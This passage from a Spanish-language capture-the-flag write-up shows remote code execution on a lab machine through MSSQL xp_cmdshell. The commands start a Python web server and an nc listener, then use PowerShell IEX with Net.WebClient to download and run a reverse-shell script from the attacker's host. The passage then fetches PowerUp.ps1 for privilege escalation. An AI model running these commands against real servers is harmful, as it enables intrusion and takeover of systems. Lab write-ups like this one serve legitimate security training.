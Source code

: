 <figure><img src="../../../.gitbook/assets/1003_vmware_Q29p4CyddS.png" alt=""><figcaption></figcaption></figure>

En nuestra Kali, deberemos de levantar un servidor web con Python para compartir el archivo, des de otra terminal nos pondremos en escucha con **nc** por el puerto especificado en el script y des de la terminal donde hemos accedido anteriormente al MSSQL ejecutaremos con el componente **xp\_cmdshell** la instrucción para que ejecute el comando de Powershell sobre el script que tenemos alojado en nuestra Kali.

Comprobamos que ganamos acceso al equipo en la terminal donde estabamos en escucha. Verificamos la flag de **user.txt**.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

rlwrap nc -nlvp 443

xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.13/PS.ps1\")"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1014_vmware_twutPVLWRN.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Enumerating PrivEsc with PowerUp.ps1

Probaremos de encontrar posibles vectores para realizar un PrivEsc y elevar nuestros privilegios como usuario Administrador.

Para ello, en nuestra Kali nos descargaremos el script de [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1).

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
```
{% endcode %}

